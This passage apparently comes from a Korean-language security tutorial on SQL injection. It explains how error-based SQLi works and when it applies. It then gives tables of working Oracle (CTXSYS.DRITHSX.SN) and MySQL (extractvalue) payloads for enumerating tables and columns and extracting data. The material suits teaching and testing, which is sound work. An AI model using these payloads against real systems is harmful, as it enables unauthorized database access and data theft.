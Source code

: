 **[Case 2] Exploit Payload 2**

-   **ORDER BY 절**에서의 SELECT 문은 **정렬 기준을 동적으로 생성**하기 위해 사용됩니다. 그런데 SELECT 1 UNION SELECT 2는 **두 개의 값을 반환**합니다.
-   **ORDER BY 절**은 하나의 값을 기준으로 정렬을 해야 하는데, 두 개 이상의 값을 반환하는 서브쿼리를 사용하면 Oracle은 이를 처리할 수 없습니다. 이는 Oracle에서 ORDER BY 절이 **단일값**을 기대하기 때문입니다.

따라서, 웹 애플리케이션에서 요청한 SQL 쿼리문이 DBMS 에서 실행되면서 오류가 발생하고

공격자는 데이터베이스로부터 반환되는 정상/에러 응답의 차이를 활용하여 데이터 추출이 가능한 것입니다.

---

### **2-3. Error-based SQLi**

**(개요)** Error-based SQLi 공격은 데이터베이스 문법에 맞지 않는 쿼리문을 입력할 때 반환되는 에러 정보를 기반으로 공격하는 기법입니다. RDBMS(Oracle, MySQL, MSSQL, etc.)는 잘못된 쿼리문 입력 시 단순한 에러 정보를 출력하거나 정보 획득이 가능한 에러 정보를 출력합니다. 오류를 유발하는 쿼리를 삽입했을 때 웹 페이지 응답에서 정보를 획득할 수 있다면 공격자는 Error-based SQLi 공격을 통해 데이터베이스에 저장된 정보를 탈취할 수 있습니다.

**(조건)** Error-based SQLi 공격을 진행하기 위해서는 아래와 같은 조건을 만족해야 합니다.
> 1. 웹 애플리케이션에서 데이터베이스에 자원 요청했을 때 **정보 획득이 가능한 오류 메시지를 반환**해야 합니다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FAx6jX%2FbtsK4b2mDW8%2FxrXAdirrGJRMKrfvf8cPg0%2Fimg.png" alt="" width=1300>

#### **Error-based SQLi Payload (Oracle)**

| attack type | payload |
| --- | --- |
| **테이블 개수** | `' AND CTXSYS.DRITHSX.SN(user,   SELECT COUNT(TABLE_NAME) FROM USER_TABLES))=1 --` |
| **테이블 이름** | `' AND CTXSYS.DRITHSX.SN(user, (SELECT TABLE_NAME FROM (SELECT TABLE_NAME, ROWNUM AS RNUM FROM USER_TABLES) WHERE RNUM=1))=1 --` |
| **컬럼 개수** | `%' AND CTXSYS.DRITHSX.SN(user, (SELECT COUNT(COLUMN_NAME) FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='**{TABLE_NAME}**'))=1 --` |
| **컬럼 이름** | `%' AND CTXSYS.DRITHSX.SN(user, (SELECT COLUMN_NAME FROM   (SELECT COLUMN_NAME, ROWNUM AS RNUM FROM   ALL_TAB_COLUMNS WHERE TABLE_NAME='**{TABLE_NAME}**') WHERE RNUM=1))=1 --` |
| **데이터 개수** | `%' AND CTXSYS.DRITHSX.SN(user, (SELECT COUNT(**{COLUMN_NAME}**) FROM **{TABLE_NAME}**))=1 --` |
| **데이터 추출** | `%' AND CTXSYS.DRITHSX.SN(user, (SELECT **{COLUMN_NAME}** FROM (SELECT **{COLUMN_NAME}**,   ROWNUM AS RNUM FROM **{TABLE_NAME}**) WHERE RNUM=1))=1 --` |

---

#### **Error-based SQLi Payload (MySQL)**

| attack type | payload |
| --- | --- |
| **데이터베이스 이름** | `' AND extractvalue(rand(),concat(0x3a,database()))--` |
| **테이블 이름** | `' AND extractvalue(rand(),concat(0x3a,(SELECT+concat(0x3a,TABLE_NAME)+FROM+   INFORMATION_SCHEMA.TABLES+WHERE+   TABLE_SCHEMA='**{TABLE_SCHEMA}**'+LIMIT+**0,1**)))--` |
| ****컬럼 이름**** | `' AND extractvalue(rand(),concat(0x3a,(SELECT+concat(0x3a,COLUMN_NAME)+FROM+   INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_SCHEMA='**{TABLE_SCHEMA}**'+   AND+TABLE_NAME='**{TABLE_NAME}**'+LIMIT+**0,1**)))--` |
| **데이터 추출** | `' AND extractvalue(rand(),concat(0x3a,(SELECT+concat('**{COLUMN_NAME}**')+   FROM+**{TABLE_NAME}**+LIMIT+**0,1**)))--` |

---
